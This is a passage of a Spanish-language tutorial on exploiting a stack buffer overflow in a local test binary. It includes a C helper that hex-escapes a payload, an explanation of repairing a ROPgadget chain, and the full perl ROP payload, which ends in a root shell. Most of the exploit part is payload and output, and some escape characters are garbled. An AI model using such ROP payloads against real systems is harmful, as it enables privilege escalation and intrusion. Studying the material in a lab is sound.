 ```$ strace /home/arget/vuln "`cat sc.o``perl -e 'print "A"x(140-33) . "xd0xbbxfdxf7" . "xb5x6cxfdxf7" . "xb6x6cxfdxf7" . "x03x1exe0xf7" . "xaaxaaxffxff" . "x30x6cxfdxf7"'`"  
}

int main(int argc, char\*\* argv)  
{  
unsigned char c;  
FILE\* f;

if(argc < 2) return 1;

f = fopen(argv\[1\], «rb»);  
if(!f) panic(«Error en fopen()»);  
while(1)  
{  
c = fgetc(f);  
if(feof(f)) break;  
if(isalnum(c)) putchar(c); // Esto luego resultó mala idea  
else  
printf(«\\x%02x», c);  
}  
putchar(‘n’);  
return 0;  
}

Lo ejecuto sobre `a.txt` y obtengo los valores hexadecimales del payload de forma apropiada para inyectarse de igual manera que como venimos haciendo. Ya en un futuro haremos exploits en python, cuando la complejidad lo requiera.  
En el ROP generado cambiamos las direcciones de .data y .data+xx, ya que eso está pensado para el .data de libc.so.6, así que las cambiamos por las del .data del binario: 0x0804a018 y sucesivas.

Tenemos otro problemita, y es que ROPgadget ha cometido un error al crear ese ROP, ya que en el segundo `pop esi` recoge .data+8, y luego ejecuta el gadget `xor edx, edx ; pop...;ret`. El problema es que ese último gadget contiene un `pop esi` que recoge un 0x41414141 colocado ahí para relleno (los pop’s entre el `xor edx,edx` y el ret tienen que recoger algo inocuo, si no se cargarán la cadena de ropeo, por eso es necesario colocar relleno), luego, el esi se dereferencia hacia -supuestamente- .data+8 en el gadget `mov [esi], edx`, lo que (al contener el esi realmente un 0x41414141) supone una violación de segmento. Se puede arreglar situando en el segundo 0x41414141 tras el gadget `xor edx,edx` la dirección de .data+8 .

Al fin estamos listos para explotarlo de verdad:  
``$ /home/arget/vuln "`perl -e 'print "A"x140 . "xeex86x04x08"x4 . ("xaax84x04x08"x2 . "xeex86x04x08")x3 . "xaax84x04x08"x8 . "x1fx32xdfxf7" . "x37x83x04x08" . "x30x6cxfdxf7" . "x2cxf5xddxf7" . "x18xa0x04x08" . "xaeZxdcxf7" . "/bin" . "x86xa6xe4xf7" . "AAAA" . "AAAA" . "x2cxf5xddxf7" . "x1cxa0x04x08" . "xaeZxdcxf7" . "//sh" . "x86xa6xe4xf7" . "AAAA" . "AAAA" . "x2cxf5xddxf7" . "x20xa0x04x08" . "Nx80xdfxf7" . "AAAA" . "x20xa0x04x08" . "AAAA" . "AAAA" . "x86xa6xe4xf7" . "AAAA" . "AAAA" . "xb5xdexddxf7" . "x18xa0x04x08" . "x03x1exe0xf7" . "x20xa0x04x08" . "xaeZxdcxf7" . "x20xa0x04x08" . "x1f2xdfxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "7mxdcxf7"'`"  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA������������������������������������������ 2��7�0l��,��� ��Z��/bin����AAAAAAAA,��� ��Z��//sh����AAAAAAAA,��� �N���AAAA �AAAAAAAA����AAAAAAAA���� � �� ��Z�� � 2����������������������������������������������7m��  
[root@plata arget]# whoami  
root  
[root@plata arget]#``

Buenas noches.